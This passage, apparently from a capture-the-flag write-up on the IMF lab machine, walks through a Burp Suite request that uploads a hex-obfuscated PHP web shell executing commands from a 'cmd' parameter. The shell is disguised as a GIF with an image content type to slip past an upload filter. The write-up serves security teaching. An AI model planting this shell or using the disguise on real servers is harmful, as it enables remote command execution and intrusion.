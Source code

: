 
For the file upload, we will use Burp Suite and send the file upload request to the repeater:

![](/assets/post/IMF/burp2.png)


Screenshot of **Burp Suite** in **Repeater** mode, which is used to manually send HTTP requests and analyze responses.

**Left Side (Request) Burpsuite:**

1. **HTTP Method**:
   - A **POST** request is being sent to the URL `http://192.168.1.112/imfadministrator/upload942.php`.

2. **HTTP Headers**:
   - **Host**: `192.168.1.112` (the server the request is sent to).
   - **Content-Length**: 337 (the size of the request body).
   - **User-Agent**: Information about the client’s browser and operating system, here shown as `Mozilla/5.0 (Windows NT 10.0; Win64; x64)`.
   - **Referer**: `http://192.168.1.112/imfadministrator/upload942.php` (the page from which the request was made).
   - **Cookie**: `PHPSESSID=vamiotoji1f0253kmscf173ag7`, a valid PHP session cookie indicating the user is authenticated.

3. **Request Body**:
   - **Multipart/form-data**: A file is being uploaded as part of the request.
   - **File**: Attempting to upload a file named `cmd.gif`, but the file content appears to be PHP code:
     ```php
     <?php "\x73\x79\x73\x74\x65\x6d"($_GET['cmd']); ?>
     ```
     This PHP code, represented in hexadecimal, converts `"\x73\x79\x73\x74\x65\x6d"` into the `system()` function. This script will execute any command sent through the `$_GET['cmd']` variable.
   - **Content-Type of the File**: The file is marked as `image/jpg`, which is misleading because, while the file extension is `.gif`, the content is actually PHP code.
